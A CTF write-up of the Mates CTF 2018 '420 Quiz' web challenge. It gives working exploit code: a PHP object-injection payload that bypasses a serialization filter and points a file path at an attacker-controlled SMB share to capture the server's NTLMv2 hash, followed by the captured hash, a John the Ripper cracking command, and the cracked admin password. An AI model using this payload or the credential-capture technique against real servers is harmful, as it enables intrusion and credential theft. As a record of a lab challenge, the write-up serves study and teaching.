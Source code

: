 ```yaml
---
layout: post
title:  "Mates CTF 2018 - 420 Quiz"
date:   2018-06-18 13:37
categories: [MatesCTF2018]
tags: [Web]
author: jbz
---
```


This challenge was a cool real world scenario and we were the only team to solve it, so it's a good excuse to do a writeup.

The challenge question was just an URL, after you visit it you can signup with username and email and start a quiz.

Among the quiz questions there were these two interesting strings:
```
Relax, here is the hint: [admin]
Great, here is the second hint: [source_882c1aaf3.zip]
```

Visiting `/admin` presented us a login page with a comment which allowed us to understand that the authentication was using `LDAP`.

In the `source_882c1aaf3.zip` we found the source code of all non admin pages: [index.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/index.php), [lib.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/lib.php) and [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php).

After a quick analysis we discovered a PHP Object Injection in [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php):
```
    if(isset($_POST['answer'])){

        $answer = (string)$_POST['answer'];
        $ck = base64_decode($_COOKIE['userinfo']);
        if(preg_match('/O:[0-9]+:"/',$ck)){ //Filter we need to bypass
            header("Location: quiz.php");
            die();
        }
        $userinfo = unserialize($ck); //Object Injection

        if(intval($_COOKIE['quiz_no']) > 19){
            $quiz = 'Each user needs to answer only 20 quizs! Please wait for response from us.';
        } elseif(is_array($userinfo)) {
            $tmp = new SaveAnswer($userinfo['username'],$userinfo['email'],$answer.PHP_EOL);
            $quiz = make_quiz($_COOKIE['quiz_no'], True);
        } else {
            die("Cannot get userinfo");
        }

    } else {
        $quiz = make_quiz($_COOKIE['quiz_no']);
    }
```

As you can see there is a filter we need to bypass to exploit it, as they are trying to prevent unserialization of PHP objects:
```
preg_match('/O:[0-9]+:"/',$ck)
```

However this filter can be bypassed by replacing the object length with a signed number (i.e. `O:5:"Class":1:{s:5:"param";s:5:"value";}` becomes `O:+5:"Class":1:{s:5:"param";s:5:"value";}`)

Now it's just a matter of finding the right object to unserialize to do some magic.

In [lib.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/lib.php) we had an handy class which was included in [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php):
```
    class SaveAnswer {
        private $folder = 'C:\\Windows\\Temp\\';
        private $filename;
        private $anscontent;

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }

        private function writeToFile($mode){
            $fullpath = $this->folder.$this->filename;

            if(!file_exists($fullpath.'.txt')){
                if(!preg_match('/^C:\x5cWindows\x5cTemp\x5c[a-zA-Z0-9\.\_]+$/i',$fullpath)){
                    return False;
                }
            }

            try{
                $file = fopen($fullpath.".txt", $mode);
                fwrite($file, $this->anscontent);
                fclose($file);
            } catch(Exception $e){
                return False;
            }
            return True;
        }

        public function __destruct()
        {
            $this->writeToFile("a+");
        }
    }
```

Cool, a class on a Windows Server which allowed us to write to a file and we could use the PHP Object Injection to instantiate this class with arbitrary parameters.

### LET'S DANCE SAMBA ###

Windows has a very cool feature, when you try to access a link like `\\ip\file` it is so nice to send the NTLM hash of the current user along with the request to try to login via Samba, so what if we try to exploit the PHP Object Injection and request a file via Samba from our server and log the NTLM hash?

To build the right serialized object we used the following PHP code:
```
<?php

class SaveAnswer {
        private $folder = '\\\\our_ip_here\\';
        private $filename = 'jbz';
        private $anscontent = 'jbz';

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }
    }
  
$exp = new SaveAnswer('jbz','jbzteam@outlook.com','jbz');

echo base64_encode(str_replace("O:","O:+",serialize($exp)));
```

After sending a request to `quiz.php` with the generated payload in the `userinfo` cookie, we received this in our [Responder](https://github.com/SpiderLabs/Responder) server.


```
[SMB] NTLMv2-SSP Client     : 35.185.189.153
[SMB] NTLMv2-SSP Username   : QUIZSERVER0\r0cky0u
[SMB] NTLMv2-SSP Hash       : r0cky0u::QUIZSERVER0:1122334455667788:11726B453AFF097DBE050E3BB1386C7F:0101000000000000E0B28CD37405D401C3BA5E9BF5910DCE0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000000136927FA8611B32A37F4FD804F2D5B215872D9A9CC975CDDDE475B9AEBE2C000A001000000000000000000000000000000000000900200063006900660073002F0035002E0039002E003100310033002E003200310036000000000000000000
```

Now it was just a matter of launching [John The Ripper](https://github.com/magnumripper/JohnTheRipper) with the [rockyou wordlist](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) and wait the admin password to appear and use it to login in the admin panel.

```
$ john --wordlist=/tmp/rockyou.txt /tmp/SMB-NTLMv2-SSP-35.185.189.153.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
BENGIjake=06     (r0cky0u)
1g 0:00:00:09 DONE (2018-06-18 19:13) 0.1023g/s 1167Kp/s 1167Kc/s 1167KC/s BIMBONA..BANDSTER
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Congratulation the flag is: `matesctf{1df0d456589907360141240ec0d4fb71cd36f1fc}`
